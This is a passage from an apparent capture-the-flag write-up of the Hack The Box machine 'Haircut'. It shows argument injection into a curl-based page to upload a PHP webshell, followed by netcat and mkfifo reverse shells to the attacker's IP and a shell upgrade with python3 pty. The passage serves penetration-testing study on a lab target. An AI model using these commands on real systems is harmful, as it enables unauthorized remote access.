 ```bash
```

The HTML files have only an image on them, which does not contain any steganography. So I visited exposed.php, which let me crawl websites. The name is also kinda sus.

# Exploitation

---

This probably works with curl. Curl takes a possible argument `-o` to download files. I can use this to download the reverse shell:

```bash
http://10.10.16.7/webshell.php -o ./uploads/webshell.php
```

![Untitled](/assets/images/2022-03-02-haircut/Untitled.png)

This exploits curl and downloads a file from my own webserver to the upload directory of the vulnerable webserver. I can now call the web shell and try to get a reverse shell:

```bash
http://haircut.htb/uploads/webshell.php?c=nc%20-e%20/bin/sh%2010.10.16.7%204444
```

This shell is really buggy, so I just use another reverse shell:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.7 5555 >/tmp/f
```

The page hangs when I send the new reverse shell to the server, so I look at the netcat lister:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/haircut]
└─$ nc -lvnp 
listening on [any] 5555 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.24] 33516
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
/bin/sh: 1: python: not found
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@haircut:~/html/uploads$ export TERM=xterm
export TERM=xterm
www-data@haircut:~/html/uploads$ ^Z
zsh: suspended  nc -lvnp 5555
                                                         
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/haircut]
└─$ stty raw -echo; 
[1]  + continued  nc -lvnp 5555

www-data@haircut:~/html/uploads$ ls
bounce.jpg  webshell.php
```
